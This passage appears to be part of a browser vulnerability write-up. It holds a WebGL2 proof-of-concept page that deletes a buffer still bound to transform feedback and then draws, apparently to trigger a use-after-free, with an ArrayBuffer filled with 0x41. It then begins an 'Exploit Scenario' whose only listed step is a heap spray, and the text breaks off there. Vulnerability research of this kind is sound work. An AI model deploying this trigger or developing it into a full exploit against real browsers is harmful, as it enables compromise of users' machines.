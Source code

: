 ```html
            canvas = document.getElementById("canvas");
            gl = canvas.getContext("webgl2"); // create webgl2 context.
            gl.clearColor(0, 0, 0, 1);

            var program = build_link_program();
            gl.useProgram(program);

            var positions = new Float32Array([
                -0.5, -0.5, 0.0,
                0.5, -0.5, 0.0,
                0.0, 0.5, 0.0
            ]);
            const tf = gl.createTransformFeedback();
            gl.bindTransformFeedback(gl.TRANSFORM_FEEDBACK, tf);

            var ab = new ArrayBuffer( 0x1c8 );
            var f64 = new Float64Array(ab);
            var data = new Uint8Array(ab).fill(0x41);

            var sumBuffer = gl.createBuffer();
            
            gl.bindBuffer(gl.ARRAY_BUFFER, sumBuffer);
            gl.bufferData(gl.ARRAY_BUFFER, 24, gl.STATIC_DRAW);        
            
            gl.bindBufferBase(gl.TRANSFORM_FEEDBACK_BUFFER, 0, sumBuffer);
            
            gl.bindTransformFeedback(gl.TRANSFORM_FEEDBACK, null);

            var positionBuffer = gl.createBuffer();
            gl.bindBuffer(gl.ARRAY_BUFFER, positionBuffer);
            gl.bufferData(gl.ARRAY_BUFFER, positions, gl.STATIC_DRAW);
            gl.bindTransformFeedback(gl.TRANSFORM_FEEDBACK, tf);
            gl.beginTransformFeedback(gl.TRIANGLES);

            var dummy = gl.createBuffer();
            gl.bindBuffer( gl.ARRAY_BUFFER, dummy);

            gl.deleteBuffer( sumBuffer );

            gl.drawArrays(gl.TRIANGLES, 0, 3);
        }
    </script>
</html>
```


## Exploit Scenario

We can exploit the vulnerability with the following steps:

1. Heap spray to JSArray butterflies with Dobule and Contigous indexing type.
